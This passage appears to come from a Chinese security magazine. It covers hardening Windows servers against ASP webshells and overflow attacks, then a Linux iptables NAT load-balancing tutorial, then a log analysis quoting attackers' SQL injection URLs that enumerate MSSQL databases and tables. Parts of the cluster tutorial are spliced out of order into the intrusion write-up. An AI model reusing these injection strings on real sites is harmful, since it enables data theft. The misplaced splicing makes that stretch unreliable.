查找注册表：`HKEY_CLASSES_ROOT\Scripting.FileSystemObject` 键值，将其更改成你想要的字符串，比如更改为 `HKEY_CLASSES_ROOT\Scripting.FileSystemObject2`。这样，在 ASP 中就必须这样引用这个对象了：

```asp
Set fso = CreateObject("Scripting.FileSystemObject2")
```

而不能使用：

```asp
Set fso = CreateObject("Scripting.FileSystemObject")
```

如果你使用通常的方法来调用 FileSystemObject 对象就会无法使用。只要你不告诉别人这个更改过的对象名称，其他人是无法使用 FileSystemObject 对象的。这样，作为站点管理者，我们就杜绝了他人非法使用 FileSystemObject 对象，而我们自己却仍然可以使用这个对象来方便地实现网站在线管理等功能！

### （3）免 FSO 对象也能使用的 ASP 木马防范方法

对于免 FSO 对象也能使用的 ASP 木马，由于少了 FSO 对象的支持，功能上当然不会很强大，只有浏览服务器上的文件目录、复制、移动文件、执行指定路径的程序文件等功能。以下是当你浏览这个 ASP 木马时所出现的图例（图 11）。


图 11

你可以通过这个免 FSO 支持的 ASP 木马对服务器上的文件进行任意的复制、移动和执行程序。这个木马程序的功能虽然简单，但是用它来黑一个网站已经足够了。比如，我们可以把网站的首页移动到其他地方，然后再复制一个同名的黑客网页进去就行了，还可使用执行程序功能让服务器执行任意的木马程序，以取得服务器的 Admin 管理权等。

你只要把上面的代码写在记事本里，保存扩展名为 `.asp`，再传到你的虚拟主机空间就可以运行了。防范免 FSO 支持的 ASP 木马方法如下：通过上面的代码，我们可以看出这段代码是通过 `shell.application` 建立 Shell 对象的，我们只要在注册表里查找键值 `shell.application` 和 `wscript.shell`，然后把这些键值删除，就能防止这一类的 ASP 木马攻击了。删除这些键值对你的服务器及 ASP 支持等不会造成影响，所以请放心删除。

各黑客网站上还有各种各样的 WebShell 下载，除了 ASP 的 WebShell 以外，还有 CGI、PHP、JSP 的。基本上都是大同小异，也有一些 WebShell 是调用系统下的 `CMD.EXE` 命令运行的，但这些调用服务器系统 `CMD.EXE` 的 WebShell 木马在 Windows 2003 下没法运行。能调用 `CMD.EXE` 命令的 WebShell 只在 Windows 2000 下测试通过；在 Windows 2003 下，那些 ASP、CGI、PHP、JSP 的 WebShell 已经不能调用 `CMD.EXE` 的命令了。

## 11．配置一台安全的服务器，把各种溢出攻击、反向连接木马拒于门外

上一节中，我们谈到了有些 WebShell 能通过调用系统的 `CMD.EXE` 命令在服务器上运行 CMD 命令。我们再细想一下，现在网络上流行的溢出攻击，如 WEBDAV 溢出等，攻击成功后，被溢出的服务器就会自动绑定服务器的 `CMD.EXE` 命令，黑客就会远程连接被溢出成功的服务器的 `CMD.EXE` 命令行，以取得远程服务器的系统管理权。

既然黑客的溢出攻击是通过溢出工具溢出成功后绑定 `CMD.EXE` 并以 SYSTEM 系统权限登录服务器的，那么只要我们对 Windows 2003 系统下的 `C:\WINDOWS\SYSTEM32\CMD.EXE` 文件设置一定的权限，那么黑客的这些溢出攻击都将无用武之地。为了安全起见，我们还要对 `net.exe`、`cacls.exe`、`telnet.exe`、`tftp.exe`、`ftp.exe`、`format.com`、`mountvol.exe`、`mshta.exe` 等危险程序作出权限设置。


图 12

通过这些安全配置，以后你的服务器就算存在溢出漏洞，就算黑客对你的服务器进行溢出攻击成功，黑客也没法登录你的服务器了。因为一般黑客的溢出攻击都是通过绑定远程被溢出攻击服务器的系统 CMD 命令登录的，并且是以 SYSTEM 权限登录，而你在 CMD 的使用权限里删除了所有用户的使用 CMD 权限，只有你正在使用的超级管理员账号才能拥有这个 CMD 命令的使用权，所以黑客就算溢出成功，也没法远程连接并登录你的服务器了。

但这只能是相对的安全，因为有些溢出攻击黑客能直接把反向连接的木马文件传到你的服务器上，并能运行。比如最近出现的 Serv-U 溢出，如果你的 FTP 服务器使用了 Serv-U 的话，你又没有打上最新的安全补丁，让黑客溢出成功后，黑客可以不绑定你的 CMD 命令登录服务器，而是给服务器传一个反向连接木马后门。这种后门通过你的服务器向黑客机器连接，黑客只要在自己的机器监听即可。即便服务器安装了防火墙并屏蔽了未用端口，黑客仍可能通过“反向连接”方式获取控制权，因此可见其危害性。防范这类攻击的方法之一，是安装具备反向连接防护能力的防火墙（如天网、金山网镖等），并启用应用程序访问网络权限控制，由管理员授权程序联网。

还要屏蔽不使用的服务端口。可在“网上邻居→属性→本地连接→属性→Internet 协议（TCP/IP）”中进行高级设置与 TCP/IP 筛选，只开放必要端口：如 FTP 21、WWW 80、SMTP 25、POP3 110、终端服务 3389、MySQL 3306 等。按本文方法配置后，服务器可有效抵挡常见溢出与 WebShell（ASP/ASPX/CGI/PHP/JSP）等攻击。


下面举例：若服务器安装天网防火墙，黑客通过 Serv-U 溢出写入反向连接后门（如 `C:\WM.EXE`），当其尝试连接时防火墙会弹出告警窗口。通过上述配置，服务器对已知与未知溢出攻击的防护能力会显著提升。

好了，至此配置完成。只要按本文方法进行服务器加固，面对当前常见攻击手段会更稳健。作者也欢迎读者通过文末给出的技术社区地址交流服务器组网与安全技术。

刘流：在现阶段的中、大型网络管理中，将计算机组建成一个集群，让它们共同进行工作，已成为满足大量工作需求的廉价而实用的解决方案。很多朋友希望了解这方面知识，以便网络管理与安全防护工作更顺利地进行。以前我们《黑客防线》也专门针对某些入侵方法介绍过集群防护，从读者反馈看效果不错。很多网络管理员来信希望更深入学习并能实际利用这类技术解决问题，所以才有今天这篇从深厚实战经验中提炼的文章。

| 适合读者 | 网络管理员 |
|---|---|
| 前置知识 | Linux 网络组建 |
| 难度等级 | 中 |

## 利用 Linux 组建小集群实现负载平衡


常见的集群有 3 种，即高性能计算机群、负载平衡集群和高可用集群。在这里我们主要探讨负载平衡集群。负载平衡集群的实现方案很多，这里采用虚拟服务器（LVS）方案。LVS 实现负载平衡的技术有 3 种，分别是网络地址转换（NAT）、直接路由（DR）和 IP 隧道（IP TUN）。由于虚拟服务器的网络地址转换方式基于 IP 伪装，因此对后端真实服务器操作系统要求不高，可以是 Windows，也可以是 Linux 等。从配置步骤看，NAT 也是最简单的。

负载均衡服务器的开销很大，包括对 IP 请求包进行解析转发，尤其是响应包的大量数据传输都需要负载均衡器来处理。当客户请求越来越多时，调度器的处理能力将成为瓶颈。所以，对小型网站（<20 台主机）来说，网络地址转换方式还是可行的；对于大中型网站服务，就不是个好方案。

IP 隧道（VS/TUN）是将一个 IP 报文封装在另一个 IP 报文中的技术。这可以使得目标为一个 IP 地址的数据报文能被封装和转发到另一个 IP 地址。用户利用 IP 隧道技术将请求报文封装转发给后端服务器，响应报文将能从后端服务器直接返回给客户。这样做，负载调度器只负责调度请求（建立 IP 隧道的开销），而响应直接返回给客户，就不需要再处理响应包，将极大提高整个集群系统的吞吐量并有效降低负载均衡器的负载。IP 隧道技术对服务器有要求，即所有服务器必须支持 “IP Tunneling” 或 “IP Encapsulation” 协议。

直接路由响应（VS/DR）连接调度和管理与在网络地址转换和 IP 隧道中的一样，不过它的报文转发是直接路由给目标服务器。在直接路由响应中，调度器不修改也不封装 IP 报文，而是将数据帧的 MAC 地址改为选出服务器的 MAC 地址，再将修改后的数据帧在局域网上发送。因为数据帧的 MAC 地址是选出的服务器，所以服务器肯定可以收到这个数据帧，从中可以获得该 IP 报文。当服务器发现报文的目标地址 VIP 是在本地的网络设备上，服务器处理这个报文，然后根据路由表将响应报文直接返回给客户。跟 IP 隧道相比，这种方法要求负载调度器与真实服务器都有一块网卡连在同一物理网段上，服务器网络设备不做 ARP 响应。

3 种负载平衡技术各有所长，但是 NAT 相对于小型集群组建更显合适，所以在此介绍用 NAT 组建小集群实现负载平衡。

在 Red Hat 7.x 以前，Red Hat Linux 有 IPVS 软件支持虚拟服务器，曾有文章介绍利用 IPVS 组建集群实现负载均衡。但由于 Red Hat 从 7.x 开始就不在内核中对 IPVS 提供支持，所以在这里我选择采用 Red Hat 9.0 作为虚拟服务器的操作系统，利用 netfilter 架构和 iptables 工具 NAT 实现集群和负载平衡，客户端可以是 Linux 和 Windows 系统。虚拟服务器的体系结构可以这样描述：一组服务器通过高速局域网或地理分布的广域网相互连接，在它们的前端有一个负载平衡服务器。负载平衡服务器能无缝地将网络请求调度到真实服务器上，从而使得服务器集群的结构对客户是透明的。客户访问集群系统提供的网络服务，就像访问一台高性能、高可用的服务器一样。下面是集群环境的示意图。


在上图中，真实服务器采用 Windows 操作系统，安装了 Web 服务器软件，网关为 192.168.*.1。负载平衡服务器是一台安装 Red Hat 9.0 操作系统的主机，它既做负载平衡服务器，也充当内部网的网关服务器，需要双网卡。

### 组建集群

我们以组建简单的、小型的、基于 Linux 和 Windows 的集群系统为例。该系统小于 20 台计算机，关键是一台具有负载平衡能力的服务器。该服务器在这里必须要实现以下两项功能：

- **服务转发功能。** 它能接受来自公网中客户端的多种基于 TCP/IP 的服务请求，例如 FTP、Telnet 和 HTTP 等，并且能将这些服务转发到真实服务器上去执行。在私网中的真实服务器处理完该项服务后，再由该虚拟服务器将结果返回给公网中的客户端。
- **动态负载平衡功能。** 该虚拟服务器因为也是一台负载平衡器，所以要能够监视内部网络中的实际服务器的负载状况。

### 1．集群硬件环境的搭建

这里我们建立一个小型的集群实现负载平衡。

### 2．软件配置

在虚拟服务器上运行 Red Hat 9.0 操作系统，并且需要 netfilter 支持和安装 iptables 工具软件。我们首先来了解 netfilter 运行机制。

netfilter/iptables 是与最新的 2.4.x 版本 Linux 内核集成的 IP 信息包过滤系统。netfilter/iptables IP 信息包过滤系统是一种功能强大的工具，可用于添加、编辑和删除规则。这些规则是在做信息包过滤决定时，防火墙所遵循和组成的规则。规则存储在专用的信息包过滤表中，而这些表集成在 Linux 内核中。在信息包过滤表中，规则被分组放在我们所谓的链（chain）中。我马上会详细讨论这些规则以及如何建立这些规则并将它们分组在链中。虽然 netfilter/iptables IP 信息包过滤系统被称为单个实体，但它实际上由两个组件 netfilter 和 iptables 组成。netfilter 组件也称为内核空间（kernelspace），是内核的一部分，由一些信息包过滤表组成，这些表包含内核用来控制信息包过滤处理的规则集。iptables 组件是一种工具，也称为用户空间（userspace），它使插入、修改和删除信息包过滤表中的规则变得容易。除非您正在使用 Red Hat Linux 7.1 以上版本，否则需要从 netfilter.org 下载该工具并安装使用它。通过使用用户空间，可以构建自己的定制规则，这些规则存储在内核空间的信息包过滤表中。这些规则具有目标，它们告诉内核对来自某些源、前往某些目的地或具有某些协议类型的信息包做些什么。如果某个信息包与规则匹配，那么使用目标 ACCEPT 允许该信息包通过。还可以使用目标 DROP 或 REJECT 来阻塞并丢弃信息包。对于可对信息包执行的其他操作，还有许多其他目标。根据规则所处理的信息包的类型，可以将规则分组在链中。

处理入站信息包的规则被添加到 INPUT 链中，处理出站信息包的规则被添加到 OUTPUT 链中，处理正在转发的信息包的规则被添加到 FORWARD 链中。这 3 个链是基本信息包过滤表中内置的缺省主链。另外，还有其他许多可用的链类型（如 PREROUTING 和 POSTROUTING）以及用户定义的链。每个链都可以有一个策略，它定义“缺省目标”，也就是要执行的缺省操作。当信息包与链中的任何规则都不匹配时，执行此操作。

建立规则并将链放在适当的位置之后，就可以开始进行真正的信息包过滤工作了。这时内核空间从用户空间接管工作。当信息包到达防火墙时，内核先检查信息包的头信息，尤其是信息包的目的地，我们将这个过程称为路由。如果信息包源自外界并前往系统，而且防火墙是打开的，那么内核将它传递到内核空间信息包过滤表的 INPUT 链。如果信息包源自系统内部或系统所连接的内部网上的其他源，并且此信息包要前往另一个外部系统，那么信息包被传递到 OUTPUT 链。类似地，源自外部系统并前往外部系统的信息包被传递到 FORWARD 链。

接下来，将信息包的头信息与它所传递到的链中的每条规则进行比较，看它是否与某条规则完全匹配。如果信息包与某条规则匹配，那么内核就对该信息包执行由该规则目标指定的操作。但是，如果信息包与这条规则不匹配，那么它将与链中的下一条规则进行比较。最后，如果信息包与链中的任何规则都不匹配，那么内核将参考该链的策略来决定如何处理该信息包。理想的策略应该告诉内核 DROP 该信息包。下图用图形说明了这个信息包过滤过程。


### 建立规则和链

下面我们具体介绍 iptables 的一些基本术语和使用方法。通过向防火墙提供有关“对来自某个源、到某个目的地或具有特定协议类型的信息包要做些什么”的指令，规则控制信息包过滤。通过使用 netfilter/iptables 系统提供的特殊命令 iptables，建立这些规则，并将其添加到内核空间的特定信息包过滤表内的链中。关于添加/删除/编辑规则命令的一般语法如下：

```bash
iptables [-t table] command [match] [目标]
```

- **1. 表（table）**

`[-t table]` 选项允许使用标准表之外的任何表。  
表是包含仅处理特定类型信息包的规则和链的信息包过滤表。有 3 种可用的表选项：filter、nat 和 mangle。该选项不是必需的，如果未指定，则 filter 用作缺省表。  

filter 表用于一般的信息包过滤，它包含 INPUT、OUTPUT 和 FORWARD 链。nat 表用于要转发的信息包，它包含 PREROUTING、OUTPUT 和 POSTROUTING 链。如果信息包及其包头内进行了任何更改，则使用 mangle 表。该表包含一些规则来标记用于高级路由的信息包，包含 PREROUTING 和 OUTPUT 链。

> PREROUTING 链由指定信息包一到达防火墙就改变它们的规则所组成，而 POSTROUTING 链由指定信息包在离开防火墙时改变它们的规则所组成。

- **2. 命令（command）**

上面这条命令中具有强制性的 command 部分是 iptables 命令的最重要部分。它告诉 iptables 命令要做什么，例如插入规则、将规则添加到链的末尾或删除规则。以下是最常用的一些命令：

- **`-A` 或 `--append`**：将一条规则附加到链的末尾。  

示例：

```bash
iptables -A INPUT -s 205.168.0.1 -j ACCEPT
```

该示例命令将一条规则附加到 INPUT 链的末尾，指定来自源地址 205.168.0.1 的信息包可以 ACCEPT。

- **`-D` 或 `--delete`**：通过用 `-D` 指定要匹配的规则，或者指定规则在链中的位置编号，从链中删除该规则。  

示例：

```bash
iptables -D INPUT --dport 80 -j DROP
iptables -D OUTPUT 3
```

第一条命令从 INPUT 链删除规则，它指定 DROP 前往端口 80 的信息包。第二条命令从 OUTPUT 链删除编号为 3 的规则。

- **`-P` 或 `--policy`**：设置链的缺省目标（策略）。所有与链中任何规则都不匹配的信息包都将使用此链策略。  

示例：

```bash
iptables -P INPUT DROP
```

该命令将 INPUT 链的缺省目标指定为 DROP。这意味着将丢弃所有与 INPUT 链中任何规则都不匹配的信息包。

- **`-N` 或 `--new-chain`**：创建一个新链。  

示例：

```bash
iptables -N allowed-chain
```

- **`-F` 或 `--flush`**：如果指定链名，该命令删除该链中的所有规则；如果未指定链名，该命令删除所有链中的所有规则。此参数用于快速清除。  

示例：

```bash
iptables -F FORWARD
iptables -F
```

- **3．匹配（match）**

iptables 命令的可选 match 部分指定信息包与规则匹配所应具有的特征（如源和目的地址、协议等）。匹配分为两大类：通用匹配和特定于协议的匹配。这里研究可用于任何协议信息包的通用匹配。

`-p` 或 `--protocol`：该通用协议匹配用于检查特定协议。协议示例有 TCP、UDP、ICMP，以及 `ALL`（默认匹配）。可以使用 `!` 表示不与该项匹配。

```bash
iptables -A INPUT -p TCP/UDP
iptables -A INPUT -p ! ICMP
```

在上述示例中，两条命令都可实现匹配 TCP/UDP 并排除 ICMP 的目的。

`-s` 或 `--source`：源匹配用于根据源 IP 地址匹配，也可按网段匹配，支持 `!` 取反。

```bash
iptables -A OUTPUT -s 192.168.1.1
iptables -A OUTPUT -s 192.168.0.0/24
iptables -A OUTPUT -s ! 203.16.1.89
```

第二条命令匹配来自 `192.168.0.0/24` 的信息包；第三条命令匹配除 `203.16.1.89` 之外的源地址。

`-d` 或 `--destination`：目的地址匹配，根据目的 IP（或网段）匹配，支持 `!` 取反。

```bash
iptables -A INPUT -d 192.168.1.1
iptables -A INPUT -d 192.168.0.0/24
iptables -A OUTPUT -d ! 203.16.1.89
```

- **4．目标（target）**

目标是规则匹配后执行的操作。常用目标包括 ACCEPT、DROP、REJECT、RETURN，以及 LOG、REDIRECT、MARK、MIRROR、MASQUERADE 等。

ACCEPT：当信息包与规则完全匹配时，接受该包并停止遍历当前链（可能仍会在其他表中继续处理）。该目标指定为 `-j ACCEPT`。  

DROP：当信息包与 DROP 目标规则匹配时，丢弃该包且不再处理，指定为 `-j DROP`。  

REJECT：与 DROP 类似，但会向发送方返回错误消息，指定为 `-j REJECT`。

```bash
iptables -A FORWARD -p tcp --dport 22 -j REJECT
```

RETURN：匹配后停止遍历当前链并返回调用链；若是主链（如 INPUT），则按该链默认策略处理。可写作 `--jump RETURN`。

```bash
iptables -A FORWARD -d 203.16.1.89 --jump RETURN
```

在集群和负载均衡场景中常用 MASQUERADE、DNAT、SNAT。DNAT 用于修改目的 IP 地址，可将流量转发到 LAN 内部主机，也可用于某些负载均衡策略。

| Option | Value |
|---|---|
| `--to-destination` | 指定要写入 IP 头的目的地址 |

| Example | Command |
|---|---|
| DNAT 示例 | `iptables -t nat -A PREROUTING -p tcp -d 15.45.23.67 --dport 80 -j DNAT --to-destination 192.168.1.1-192.168.1.10` |

| Explanation |
|---|
| 将发往 `15.45.23.67:80` 的包转发到 LAN 私有地址范围；同一流通常保持同一目标地址。也可指定单个地址或地址+端口范围，如 `--to-destination 192.168.1.1:80` 或 `192.168.1.1:80-100`。端口语法通常用于 TCP/UDP。 |

> DNAT 目标只能用在 nat 表的 PREROUTING 和 OUTPUT 链中，或者是被这两条链调用的链里。但还要注意的是，包含 DNAT 目标的链不能被除此之外的其他链调用，如 POSTROUTING。

我们通过一个例子来大致理解一下它是如何工作的。比如，我想通过 Internet 连接发布我们的网站，但是 HTTP Server 在我们的内网里，而且我们对外只有一个合法的 IP，就是防火墙那个对外的 IP——$INET_IP。防火墙还有一个内网的 IP——$LAN_IP，HTTP Server 的 IP 是 $HTTP_IP（这当然是内网的了）。为了完成我们的设想，要做的第一件事就是把下面这个简单的规则加入到 nat 表的 PREROUTING 链中。

```bash
iptables -t nat -A PREROUTING --dst $INET_IP -p tcp --dport 80 -j DNAT --to-destination $HTTP_IP
```

现在，所有从 Internet 来的、到防火墙的 80 端口去的包都会被转发（或称作被 DNAT）到在内网的 HTTP 服务器上。如果你在 Internet 上试验一下，一切正常吧。再从内网里试验一下，完全不能用吧。这其实是路由的问题。下面我们来好好分析这个问题。为了容易阅读，我们把在外网上访问我们服务器的那台机子的 IP 地址记为 $EXT_BOX。

- 包从地址为 $EXT_BOX 的机子出发，去往地址为 $INET_IP 的机子。
- 包到达防火墙。
- 防火墙 DNAT（也就是转发）这个包，而且包会经过很多其他的链检验及处理。
- 包离开防火墙向 $HTTP_IP 前进。
- 包到达 HTTP 服务器，服务器就会通过防火墙给予回应，当然，这要求把防火墙作为 HTTP 到达 $EXT_BOX 的网关。一般情况下，防火墙就是 HTTP 服务器的缺省网关。
- 防火墙再对返回包做 Un-DNAT（就是照着 DNAT 的步骤反过来做一遍），这样就好像是防火墙自己回复了那个来自外网的请求包。
- 返回包好像没经过这么复杂的处理，没事一样回到 $EXT_BOX。

现在，我们来考虑和 HTTP 服务器在同一个内网（这里是指所有机子不需要经过路由器而可以直接互相访问的网络，不是那种把服务器和客户机又分在不同子网的情况）的客户访问它时会发生什么。我们假设客户机的 IP 为 $LAN_BOX，其他设置同上。

- 包离开 $LAN_BOX，去往 $INET_IP。
- 包到达防火墙。
- 包被 DNAT，而且还会经过其他的处理。但是包没有经过 SNAT 的处理，所以包还是使用它自己的源地址，就是 $LAN_BOX。
- （……交代一下原因）。
- 包离开防火墙，到达 HTTP 服务器。
- HTTP 服务器试图回复这个包。它在路由数据库中看到包是来自同一个网络的一台机子，因此它会把回复包直接发送到请求包的源地址（现在是回复包的目的地址），也就是 $LAN_BOX。
- 回复包到达客户机，但它会很困惑，因为这个包不是来自它访问的那台机子。这样，它就会把这个包扔掉而去等待“真正”的回复包。

针对这个问题有个简单的解决办法，因为这些包都要进入防火墙，而且它们都去往需要做 DNAT 才能到达的那个地址，所以我们只要对这些包做 SNAT 操作即可。比如，我们来考虑上面的例子，如果对那些进入防火墙而且是去往地址为 $HTTP_IP、端口为 80 的包做 SNAT 操作，那么这些包就好像是从 $LAN_IP 来的了，也就是说，这些包的源地址被改为 $LAN_IP。这样，HTTP 服务器就会把回复包发给防火墙，而防火墙会再对包做 Un-DNAT 操作，并把包发送到客户机。解决问题的规则如下：

```bash
iptables -t nat -A POSTROUTING -p tcp --dst $HTTP_IP --dport 80 -j SNAT --to-source $LAN_IP
```

要记住，按运行的顺序 POSTROUTING 链是所有链中最后一个，因此包到达这条链时，已经被做过 DNAT 操作了，所以我们在规则里要基于内网的地址 $HTTP_IP（包的目的地）来匹配包。

对上面的例子应该考虑再全面些，现在还有一个问题没解决，就是防火墙自己要访问 HTTP 服务器时会发生什么，能正常访问吗？你觉得呢？很可惜，现在的配置还是不行。仔细想想就明白了，我们这里讨论的基础都是假设机子访问的是 HTTP 服务器的外网地址，但这个外网地址其实就是防火墙对外的地址，所以当防火墙访问这个外网地址时，就是访问它自己。

防火墙上如果有 HTTP 服务，那客户机就会看到页面内容，不过这不是它想看到的（它想要的在 DNAT 上了）；如果没有 HTTP 服务，客户就只能收到错误信息了。前面给出的规则之所以不起作用，是因为从防火墙发出的请求包不会经过那两条链。还记得防火墙自己发出的包经过哪些链吧，我们要在 nat 表的 OUTPUT 链中添加下面的规则：

```bash
iptables -t nat -A OUTPUT --dst $INET_IP -p tcp --dport 80 -j DNAT --to-destination $HTTP_IP
```

有了最后这条规则，一切都正常了。和 HTTP 服务器不在同一个网的机子能正常访问服务了，和它在一个网内的机子也可以正常访问服务了，防火墙本身也能正常访问服务了，没有什么问题了。

“MASQUERADE” 这个目标和 SNAT 目标的作用是一样的，区别就是它不需要指定 `--to-source`。MASQUERADE 是被专门设计用于那些动态获取 IP 地址的连接的，比如拨号上网、DHCP 连接等。如果你有固定的 IP 地址，还是用 SNAT 目标吧。

地址，而不使用 `--to-source`。当接口停用时，MASQUERADE 不会记住任何连接，这在我们 kill 掉接口时很有好处。如果使用 SNAT 目标，连接跟踪的数据会被保留较长时间并占用内存。一般情况下，这种处理方式对于拨号上网较好（有利于已有连接继续使用）。如果被分配了不同于前一次的 IP，不管怎样已有连接都会丢失，但多少会保留一些连接记录。

即使有静态 IP，也可以使用 MASQUERADE，而不使用 SNAT。不过这并不被鼓励，因为它会带来额外开销，并且可能引起矛盾，例如影响脚本可用性。

> MASQUERADE 和 SNAT 一样，只能用于 `nat` 表的 `POSTROUTING` 链，而且它只有一个选项（不是必须的）。

| 项 | 内容 |
|---|---|
| 标题 | **MASQUERADE 目标** |
| Option | `--to-ports` |
| Example | `iptables -t nat -A POSTROUTING -p tcp -j MASQUERADE --to-ports 1024-31000` |
| Explanation | 在指定 TCP/UDP 前提下设置外出包端口，可为单端口（如 `1025`）或端口范围（如 `1024-3000`），用于改变 SNAT 中端口选择。 |

“SNAT” 目标用于做源网络地址转换，即重写包的源 IP 地址。当多台主机共享一个 Internet 连接时即可用到。先开启内核 IP 转发，再写 SNAT 规则，可把本地网络出去的数据包源地址改为 Internet 出口地址。否则 Internet 上主机无法正确返回应答，因为本地网常用私有地址不能直接在 Internet 使用。SNAT 的作用是让本地网发出的包看起来都来自一台主机（通常是防火墙）。

SNAT 只能用在 `nat` 表的 `POSTROUTING` 链。连接中第一个命中规则的包被 SNAT 后，该连接后续所有包都会自动应用同一转换。

| 项 | 内容 |
|---|---|
| 标题 | **SNAT 目标** |
| Option | `--to-source` |
| Example | `iptables -t nat -A POSTROUTING -p tcp -o eth0 -j SNAT --to-source 194.236.50.155-194.236.50.160:1024-32000` |
| Explanation | 指定源地址和端口：1）单一地址；2）连续地址段（如 `194.236.50.155-194.236.50.160`，可用于负载分摊）；3）在 `-p tcp/udp` 前提下可限定源端口范围（如 `1024-32000`）。 |

（续）对于同一流使用的是同一个 IP。在指定 `-p tcp` 或 `-p udp` 前提下，可以指定源端口范围。iptables 会尽量避免端口变化；若多个连接使用同一源端口，会映射到同范围内其他端口。该映射与目标端口无关。

了解 netfilter/iptables 工作原理和具体操作方法之后，我们开始用 iptables 实现虚拟服务器和负载平衡。

由于涉及公网多台机器与私网服务器通信，私有地址无法直接与外网主机通信，需要 NAT 机制解决。这里将模拟从客户端访问内网主机的 Web 服务，具体配置命令和步骤如下。在 `/etc/rc.d/rc.local` 文件中创建如下命令：

```bash
# 以双网卡主机为例配置地址和默认网关
ifconfig eth0 192.168.0.1 netmask 255.255.255.0 broadcast 192.168.0.255
route add -net 0.0.0.0 netmask 0.0.0.0 gw 192.168.0.1
ifconfig eth1 218.12.x.1 netmask 255.255.255.0 broadcast 218.12.x.255
route add -net ... gw 218.12.x.2

echo "1" > /proc/sys/net/ipv4/ip_forward

# 端口转发：把访问外网 80 的请求转发到内网真实服务器
/sbin/iptables -t nat -A PREROUTING -i eth1 -p tcp --dport 80 \
  -j DNAT --to-destination 192.168.0.2:80

# 出站地址转换
/sbin/iptables -t nat -A POSTROUTING -j SNAT --to-source 218.12.x.1
# 或
#/sbin/iptables -t nat -A POSTROUTING -j MASQUERADE
```

经过上面的配置，就能实现不同客户端通过访问同一虚拟服务器来访问不同的真实服务器，从而达到负载均衡。

| 适合读者 | 网络管理员、入侵爱好者 |
|---|---|
| 前置知识 | SQL 注入 |
| 难度等级 | 中 |

刘流：时下网络上的入侵事件太多，每天都有太多的服务器沦陷。常见网管们在各大论坛悲痛万分地大叫：“为什么受伤的总是我？上次被入侵后才刚做了系统防护，没想到短短的一个星期时间又被入侵了，难道‘黑客’真是无所不能？”NO、NO、NO！不要被生活打击得抬不起头。不是“黑客”技术太高，而是你的系统防护缺少整体的安全规划和详细的实施步骤，并且没有详细分析上次入侵是由什么引起？入侵者是利用什么漏洞进入的系统？又在你的服务器上放置了什么后门？等管理员把这些东西摸清楚了，再有针对性地一一修补，相信再厉害的“黑客”想要入侵这样的系统都要花费很大的功夫了！

文／图 RITATV

## 记一次真实的安全入侵

### 服务器被入侵后的日志分析及系统防护


2004 年 5 月某日，朋友推荐我为国内某大型商务网站做安全评估。此商务网站专为其他公司提供域名空间，并且提供统一的 Web 管理系统。下面先让我们一起来熟悉一下此系统：它使用 Windows 2000 Server 作为服务器，存储了 300G 以上的数据。该服务器直接由电信托管，存放在电信机房，管理员的日常管理只能通过 2000 的终端服务进行。Web 服务使用的数据库为 MS SQL Server 2000，Web 系统有两套，分别为 ASP 和 ASP.net。

就在此前几天，该服务器的网络管理员在日志中查看到了 MSSQL Server 被关闭后又重新启动的记录，时间发生在凌晨 2 点左右。对于一般的网络管理员来说，可能这根本都算不了什么，也就随便忽视过去了。但是，这位管理员的洞察力确实值得我们学习，凭多年网管经验的直觉，他认为有入侵事件发生了。但到底入侵是如何发生，又是如何进行的？他却百思不得其解。如果你碰到了这样的情况，该如何下手进行分析，然后一步一步地排除问题呢？

下面，我将结合这一次入侵检测实例，对在这样大型的服务器遭到攻击后，查找攻击方法、攻击的位置、攻击者留下的后门这些方面和大家讨论一下，希望能对有兴趣的读者有所帮助。同时，如果哪里分析得不到位，还请大牛们不吝赐教。

### 根据日志追踪漏洞

拿到这样一个系统，数据量如此之大，似乎无从下手。但是，既然接下来了，再难都要做下去！有经验的读者应该知道，上面列举的关于服务器的信息中，最容易引起攻击的就是 ASP+MSSQL Server 的组合，这个组合是最容易引起 SQL 注入的。但是，我们做计算机安全工作，也应该像法律一样，要让证据说话，而不仅仅是怀疑。为了验证我的判断，首先，我对事件查看器里记录的系统日志进行了分析。结果发现，某个时间有人在 URL 中输入过这样的信息：“;select name from master..sysdatabases where dbid=7--”，并曾经试图访问“xp_cmdshell”和“xp_regread”等常用的扩展存储过程。显然，从这里我们可以初步断定，该服务器被尝试过 SQL 注入。

按照通常的方法，攻击者在通过了一系列的尝试之后，如果一旦断定该服务器可以注入，必然就要使用某些手段，读出数据库的信息……

在实施过程中我们需要注意以下各个问题：首先是负载的平衡性，在一个集群内部，如果某一节点和其他节点相比流量不足，或者总是处于空闲状态，那么说明集群的负载失衡了，这时就必须重新修改平衡策略。其次是溢出问题，如果有太多网络流量要处理，就会导致包丢失和发往目的节点的包阻塞，这时会导致溢出。最后就是存储的一致性问题……

一致的磁盘共享系统，在效率和容量兼顾的分布式存储环境下，要求每一个节点保存部分数据，而且不同节点的数据互相不交叉，避免出现数据存储不一致的情况。要解决这类问题一般有 3 种方法：一是使用共享存储服务器或存储设备进行集中存储；二是采用分布式文件系统，将文件分块存放在不同节点磁盘上；三是通过人工手段对访问数据的应用程序进行改写，在应用层实现分布式存储。通过上面的配置，一个小机群的负载平衡系统就建立起来了，大家可以自己测试一下功能，如果有疑问，也欢迎来和我交流！

“，这很显然就是在寻找数据库管理系统中的数据库信息。这里我结合通常的 SQL 注入的步骤，来找出对应的日志，大家在实际工作中可以借鉴一下。一般来说，SQL 注入者会从以下这些方面注入，下面我就结合日志中看到的记录讲解，如下：

```text
http://www.***.com/preview/default.asp?DocNo=107 and 1=(select name from master.dbo.sysdatabases where dbid=14)
```

很显然，注入者试图用这样的语句得到数据库的名称信息。

```text
http://www.***.com/preview/default.asp?DocNo=107 and 1=(select top 1 name from ManageDB.dbo.sysobjects where xtype='U')

http://www.***.com/preview/default.asp?DocNo=107 and 1=(select top 1 name from ManageDB.dbo.sysobjects where xtype='U' and name not in('inputtable','inputtable2'))
```

这些日志清楚表明注入者试图穷举数据库中的数据表名。不过，好像这个方法比较笨，看来注入者还没有掌握那种简单实用的方法。我们继续：

```text
http://www.***.com/preview/default.asp?DocNo=107 and 1=(select top 1 name from ManageDB.dbo.sysobjects where xtype='U' and name='inputtable' and uid>(str(id)))
```

这个日志显示的信息，表明注入者在使用 ID 号递增的方法试图穷举数据库中的表名，我对这个方法的评价跟上面一样：“笨”就一个字！

```text
http://www.***.com/preview/default.asp?DocNo=107 and 1=(select top 1 name from ManageDB.dbo.sysobjects where uid='1')

http://www.***.com/preview/default.asp?DocNo=107 and 1=(select top 1 name from ManageDB.dbo.sysobjects where uid='1' and name not in(''))
```

知道表名后使用下列语句更加方便：

```text
(select * from information_schema.columns where table_name='inputtable' order by ordinal_position=1)
```

显然，注入者试图将表中的列名信息取出。

```text
